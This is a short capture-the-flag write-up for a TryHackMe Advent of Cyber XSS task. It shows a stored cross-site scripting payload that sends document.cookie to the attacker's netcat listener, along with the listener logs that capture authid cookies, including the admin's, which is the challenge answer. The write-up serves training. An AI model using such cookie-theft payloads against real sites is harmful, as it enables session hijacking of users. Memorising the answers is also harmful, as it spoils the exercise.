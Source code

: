 1. What is the admin's authid cookie value?

- [http://10.10.186.115:3000/login](http://10.10.186.115:3000/login)
- [http://10.10.186.115:3000/home](http://10.10.186.115:3000/home)

`</p><script>console.log("XSS Works")</script><p>`

![](2020-10-03_09-55.png)

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali:
listening on [any] 80 ...
```

`</p><script>window.location = 'http://10.8.106.222/page?param=' + document.cookie </script><p>`

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
[sudo] password for kali:
listening on [any] 80 ...
connect to [10.8.106.222] from (UNKNOWN) [10.8.106.222] 47828
GET /page?param=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.8.106.222
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.186.115:3000/home
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ sudo nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 10.10.138.108 45766 received!
GET /?cookie=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.9.**.**
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```
